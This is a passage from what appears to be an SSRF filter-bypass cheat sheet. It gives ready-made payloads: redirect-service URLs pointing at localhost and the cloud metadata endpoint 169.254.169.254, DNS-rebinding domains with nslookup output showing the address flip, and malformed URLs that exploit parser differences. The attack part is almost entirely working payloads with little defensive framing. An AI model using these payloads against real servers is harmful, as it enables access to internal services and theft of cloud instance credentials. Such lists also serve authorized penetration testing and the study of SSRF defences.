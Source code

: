 
* Redirects to `http://localhost` with `307 Temporary Redirect` status code
    ```powershell
    https://307.r3dir.me/--to/?url=http://localhost
    ```

* Redirects to `http://169.254.169.254/latest/meta-data/` with `302 Found` status code
    ```powershell
    https://62epax5fhvj3zzmzigyoe5ipkbn7fysllvges3a.302.r3dir.me
    ```


### Bypass Using DNS Rebinding

Create a domain that change between two IPs. 

* [1u.ms](http://1u.ms) - DNS rebinding utility

For example to rotate between `1.2.3.4` and `169.254-169.254`, use the following domain:

```powershell
make-1.2.3.4-rebind-169.254-169.254-rr.1u.ms
```

Verify the address with `nslookup`.

```ps1
$ nslookup make-1.2.3.4-rebind-169.254-169.254-rr.1u.ms
Name:   make-1.2.3.4-rebind-169.254-169.254-rr.1u.ms
Address: 1.2.3.4

$ nslookup make-1.2.3.4-rebind-169.254-169.254-rr.1u.ms
Name:   make-1.2.3.4-rebind-169.254-169.254-rr.1u.ms
Address: 169.254.169.254
```


### Bypass Abusing URL Parsing Discrepancy

[A New Era Of SSRF Exploiting URL Parser In Trending Programming Languages - Research from Orange Tsai](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf)

```powershell
http://127.1.1.1:80\@127.2.2.2:80/
http://127.1.1.1:80\@@127.2.2.2:80/
http://127.1.1.1:80:\@@127.2.2.2:80/
http://127.1.1.1:80#\@127.2.2.2:80/
```
